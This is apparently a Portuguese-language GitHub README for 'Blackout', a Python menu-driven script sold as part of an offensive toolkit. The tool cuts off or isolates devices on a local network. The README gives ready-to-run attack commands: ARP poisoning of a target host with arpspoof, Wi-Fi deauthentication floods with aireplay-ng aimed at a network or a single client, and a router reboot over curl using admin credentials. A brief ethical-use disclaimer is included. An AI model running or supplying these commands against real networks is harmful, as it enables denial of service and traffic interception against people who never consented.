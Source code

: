 <p align="center">
  <img src="https://raw.githubusercontent.com/GhostNet-git/Blackout/main/banners.png" alt="Blackout Banner" />
</p>

<h1 align="center">blackout 🚀</h1>

<p align="center">



🛑 BLACKOUT

Um script Python para travar ou isolar dispositivos conectados à rede local.
Parte do projeto ZeroKey - uso restrito a ambientes controlados e autorizados.

⚙️ Sobre

Blackout é um script que executa comandos de bloqueio contra dispositivos conectados à mesma rede. É voltado para profissionais de segurança cibernética, testes de intrusão em ambientes autorizados e automação de controle de rede.

🚨 Aviso de Uso Ético

⚠️ Atenção: Este script é uma ferramenta poderosa e não deve ser utilizada em redes que você não tem permissão para monitorar ou controlar.

O uso indevido pode ser considerado crime cibernético (Lei nº 12.737/2012 - Brasil).

Utilize apenas para fins educacionais, profissionais ou testes com autorização.

📦 Requisitos

Python 3.x

Biblioteca colorama

pip install colorama

Ferramentas externas:

arpspoof (pacote dsniff)

iptables

aireplay-ng (pacote aircrack-ng)

curl

🎛️ Modo Interativo com Menu

O script agora possui um menu com as seguintes opções:

ARP Spoof – interceptação ou envenenamento ARP

Bloqueio por IP – usando iptables

Bloqueio por MAC – usando iptables

Deauth Wi-Fi – ataque de desconexão com aireplay-ng

Reiniciar Roteador – via curl (HTTP básico)

Sair

🧪 Execução

python Blackout.py

Você será guiado por um menu com perguntas e comandos automáticos.

🧠 Exemplos Reais de Comandos

ARP Spoof (envenenamento):

arpspoof -i wlan0 -t 192.168.0.105 192.168.0.1

Bloquear por IP:

iptables -A INPUT -s 192.168.0.105 -j DROP
iptables -A FORWARD -s 192.168.0.105 -j DROP

Bloquear por MAC:

iptables -A INPUT -m mac --mac-source AA:BB:CC:DD:EE:FF -j DROP

Deauth Wi-Fi:

aireplay-ng --deauth 1000 -a [BSSID] wlan0mon
# ou para um alvo específico:
aireplay-ng --deauth 1000 -a [BSSID] -c [MAC_CLIENTE] wlan0mon

Reiniciar roteador:

curl -u admin:senha http://192.168.0.1/reboot.cgi

🖼️ Capa Visual

O projeto acompanha um logotipo com estética cyberpunk/hacker:

Arquivo: BLACKOUT_LOGO.pngUso: Pode ser exibido em painéis, GUIs ou como splash de apresentação.

🔐 Projeto ZeroKey

Este script é um módulo interno do projeto ZeroKey, uma suíte de ferramentas para cibersegurança, automação de recon e operações ofensivas.

📄 Licença

Uso restrito. Distribuição permitida apenas com autorização do autor.

✉️ Contato

Autor: GhostNet Email: melibi6053@ancewa.com Projeto: ZeroKey

